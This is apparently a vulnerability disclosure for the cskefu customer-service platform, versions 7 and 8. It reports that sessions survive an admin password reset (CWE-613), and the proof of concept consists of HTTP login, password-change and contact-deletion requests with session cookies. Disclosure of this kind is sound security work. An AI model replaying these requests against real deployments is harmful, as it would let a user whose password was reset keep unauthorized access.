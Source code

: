 ## TYPE: Insufficient Session Expiration(CWE-613)
## Date: 5/12/2024

## Basic Information
+ Vendor: [cskefu](https://github.com/cskefu)
+ Homepage: https://github.com/cskefu/cskefu
+ **Affected Version**: v7.x, v8.x

## Tested on: Debian Linux

## Exploit Description
The user can still operate successfully after **the admin changes/reset the user's password**.
The system is affected by CWE613-Insufficient Session Expiration, which indicates that previous sessions or authentication tokens tied to the old password remain valid and can still be utilized.

### PoC: admin changes/resets user password, user can still operate.
+ **PoC video** [reference](https://1drv.ms/v/s!AmTWEcd1YDpUjg095kRTaxRVZaU8?e=jsHtoK)
+ **Steps**:
1. `admin` login, `user1` login.

`user1` login:
```
POST /login.html HTTP/1.1
username=user1&password=user123
...
response:
HTTP/1.1 302
Set-Cookie: authorization=7a9e00c3aba14cfe9b7577a614030ecf
```
3. `admin` modify `user1`'s password.
   ```
   POST /api/user HTTP/1.1
   Cookie: _ga=GA1.1.841718065.1715481718; SESSION=3f0bb1c3-bf2d-4787-9a50-617e8bc98ee5; authorization=649dda8bf02f44b98c824ae57e2a839b; _ga_SBBX10RKTC=GS1.1.1715495361.3.1.1715495367.
   ...
   {"id":"2c9280868f6aa4a9018f6b5c9b1c008a","username":"user1","uname":"user1","email":"","password":"admin123","repassword":"admin123","mobile":"","ops":"update"}
   ```
4. `user1` still be online, and can operate successfully with the old session/token, like deleting contacts.
<img width="1104" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/058d3cce-1e40-4c74-b1be-d4bf85114a55">

```
GET /apps/contacts/delete.pug?id=95027150558c4e25a58d3907ee6fda99&ckind= HTTP/1.1
Cookie: _ga=GA1.1.1578594732.1715483346; SESSION=0dcc6821-75df-46ae-a5ce-27e217915007; authorization=7a9e00c3aba14cfe9b7577a614030ecf; _ga_SBBX10RKTC=GS1.1.1715493138.2.1.1715495577.0.0.0
...
```
<img width="723" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/75300894-db56-4844-935e-c65b4a5e8dff">

+ https://github.com/cskefu/cskefu/issues/1018

